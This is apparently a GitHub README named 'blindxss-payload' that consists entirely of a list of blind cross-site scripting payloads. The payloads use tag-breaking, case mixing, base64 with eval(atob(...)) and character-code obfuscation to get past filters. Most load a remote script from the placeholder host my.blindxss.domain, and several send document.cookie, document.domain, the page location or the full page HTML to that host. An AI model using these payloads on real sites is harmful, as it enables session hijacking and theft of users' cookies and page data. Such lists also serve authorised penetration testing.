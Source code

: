 # blindxss-payload

`â€™"><script src=//my.blindxss.domain></script>
`'"></script></title></textarea><script src=//my.blindxss.domain></script>
--></tiTle></stYle></texTarea></scrIpt>"//'//><scrIpt src="https://my.blindxss.domain"></scrIpt>
`'"></Title/</StYle/</TeXtarEa/</ScRipt/</NoScRiPt/</SeLeCt/</OpTiOn/</Svg/''"><svg/onload=javascript:eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluIjtkb2N1bWVudC5ib2R5LmFwcGVuZChhKTs='))//
`â€™"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw onerror=eval(atob(this.id))>
`â€™"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw autofocus>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=import(/https:\my.blindxss.domain\/.source)//>
`â€™"><svg onload="javascript:eval('var a=document.createElement(\'script\');a.src=\'https://my.blindxss.domain\';document.body.appendChild(a)')" />
`â€™"><iframe src="javascript:var a=document.createElement('script');a.src='https://my.blindxss.domain';document.body.appendChild(a)"></iframe>
`â€™"><div onmouseover="var a=document.createElement('script');a.src='https://my.blindxss.domain';document.body.appendChild(a)">Hover me</div>
`â€™"><audio src="x" onerror="var a=document.createElement('script');a.src='https://my.blindxss.domain';document.body.appendChild(a)">
`â€™"><body onload="var a=document.createElement('script');a.src='https://my.blindxss.domain';document.body.appendChild(a)">
<script>fetch("//my.blindxss.domain").then(r=>r.text()).then(t=>eval(t))</script>
<iframe srcdoc="<script src='https://my.blindxss.domain'></script>"></iframe>
<video><source onerror="eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluIjtkb2N1bWVudC5ib2R5LmFwcGVuZChhKTs='))">
<details open ontoggle="eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluIjtkb2N1bWVudC5ib2R5LmFwcGVuZChhKTs='))">
<svg><desc><![CDATA[</desc><script src="https://my.blindxss.domain"></script>]]></svg>
<style>@import url(https://my.blindxss.domain);</style>
<math href="javascript:eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluIjtkb2N1bWVudC5ib2R5LmFwcGVuZChhKTs='))"></math>
<svg><foreignObject><iframe srcdoc="<script src='https://my.blindxss.domain'></script>"></iframe></foreignObject></svg>
<img src=1 onerror=eval(String.fromCharCode(118,97,114,32,97,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,97,46,115,114,99,61,39,104,116,116,112,115,58,47,47,109,121,46,98,108,105,110,100,120,115,115,46,100,111,109,97,105,110,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,97,41))>
<input autofocus onfocus="new Image().src='https://my.blindxss.domain/?c='+document.cookie">
<input id='x' onfocus=eval(atob(this.id)) autofocus id=dmVyIGM9bmV3IEltYWdlKCk7Yy5zcmM9J2h0dHBzOi8vbXkuYmxpbmR4c3MuZG9tYWluLz9jPScrZG9jdW1lbnQuY29va2llOw==>
<textarea autofocus onfocus="location='https://my.blindxss.domain/?txt='+document.body.innerHTML"></textarea>
<img src="x" onerror="new Image().src='https://my.blindxss.domain/?e='+document.domain">
<div contenteditable onfocus="fetch('https://my.blindxss.domain/?x='+document.location)"></div>
<svg><a xlink:href="https://my.blindxss.domain"><rect onfocus="this.href.baseVal='https://my.blindxss.domain?svgfocus='+document.domain" tabindex="1"/></a></svg>
<iframe src="javascript:parent.location='https://my.blindxss.domain?frame='+document.domain"></iframe>
<video src onerror="fetch('https://my.blindxss.domain?videofail='+document.cookie)"></video>
<details open ontoggle="new Image().src='https://my.blindxss.domain?toggle='+document.cookie"></details>
<marquee onstart="fetch('https://my.blindxss.domain?marquee='+document.cookie)">BLIND XSS</marquee>
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=document.body.appendChild(document.createElement('script')).src='https://my.blindxss.domain' /*iframe/src*/>
1')"AutoFocus/ContentEditable/OnFocusIn=(document.body.appendChild(document.createElement('script')).src='https://my.blindxss.domain')//
">><marquee><img src=x onerror=document.body.appendChild(document.createElement('script')).src='https://my.blindxss.domain'></marquee> ></plaintext\></|\><plaintext/onmouseover=document.body.appendChild(document.createElement('script')).src='https://my.blindxss.domain'>
